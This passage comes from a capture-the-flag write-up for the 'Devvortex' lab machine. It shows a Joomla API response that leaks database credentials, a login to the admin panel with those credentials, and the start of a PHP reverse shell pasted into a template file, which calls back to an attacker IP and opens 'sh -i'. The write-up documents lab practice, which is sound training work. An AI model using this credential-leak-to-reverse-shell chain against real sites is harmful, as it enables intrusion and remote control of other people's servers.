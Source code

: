 ```bash
< x-frame-options: SAMEORIGIN
< referrer-policy: strict-origin-when-cross-origin
< cross-origin-opener-policy: same-origin
< X-Powered-By: JoomlaAPI/1.0
< Expires: Wed, 17 Aug 2005 00:00:00 GMT
< Last-Modified: Sat, 25 Nov 2023 21:52:10 GMT
< Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
< Pragma: no-cache
< 
{"links":{"self":"http:\/\/dev.devvortex.htb\/api\/index.php\/v1\/config\/application?public=true","next":"http:\/\/dev.devvortex.htb\/api\/index.php\/v1\/config\/application?public=true&page%5Boffset%5D=20&page%5Blimit%5D=20","last":"http:\/\/dev.devvortex.htb\/api\/index.php\/v1\/config\/application?public=true&page%5Boffset%5D=60&page%5Blimit%5D=20"},"data":[{"type":"application","id":"224","attributes":{"offline":false,"id":224}},{"type":"application","id":"224","attributes":{"offline_message":"This site is down for maintenance.<br>Please check back again soon.","id":224}},{"type":"application","id":"224","attributes":{"display_offline_message":1,"id":224}},{"type":"application","id":"224","attributes":{"offline_image":"","id":224}},{"type":"application","id":"224","attributes":{"sitename":"Development","id":224}},{"type":"application","id":"224","attributes":{"editor":"tinymce","id":224}},{"type":"application","id":"224","attributes":{"captcha":"0","id":224}},{"type":"application","id":"224","attributes"* Connection #0 to host dev.devvortex.htb left intact
:{"list_limit":20,"id":224}},{"type":"application","id":"224","attributes":{"access":1,"id":224}},{"type":"application","id":"224","attributes":{"debug":false,"id":224}},{"type":"application","id":"224","attributes":{"debug_lang":false,"id":224}},{"type":"application","id":"224","attributes":{"debug_lang_const":true,"id":224}},{"type":"application","id":"224","attributes":{"dbtype":"mysqli","id":224}},{"type":"application","id":"224","attributes":{"host":"localhost","id":224}},{"type":"application","id":"224","attributes":{"user":"lewis","id":224}},{"type":"application","id":"224","attributes":{"password":"P4ntherg0t1n5r3c0n##","id":224}},{"type":"application","id":"224","attributes":{"db":"joomla","id":224}},{"type":"application","id":"224","attributes":{"dbprefix":"sd4fg_","id":224}},{"type":"application","id":"224","attributes":{"dbencryption":0,"id":224}},{"type":"application","id":"224","attributes":{"dbsslverifyservercert":false,"id":224}}],"meta":{"total-pages":4}} 
```

log on http://dev.devvortex.htb/administrator/index.php with the creds
users: lewis:P4ntherg0t1n5r3c0n##


...
It WORK!

Now!
into the /administrator/templates/atum/error.php" we paste the a PHP reverse shell (from revshell.com) 
```php
<?php
// php-reverse-shell - A Reverse Shell implementation in PHP. Comments stripped to slim it down. RE: https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net

set_time_limit (0);
$VERSION = "1.0";
$ip = '10.10.14.6';
$port = 1234;
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; sh -i';
$daemon = 0;
$debug = 0;

if (function_exists('pcntl_fork')) {
	$pid = pcntl_fork();
	
	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
```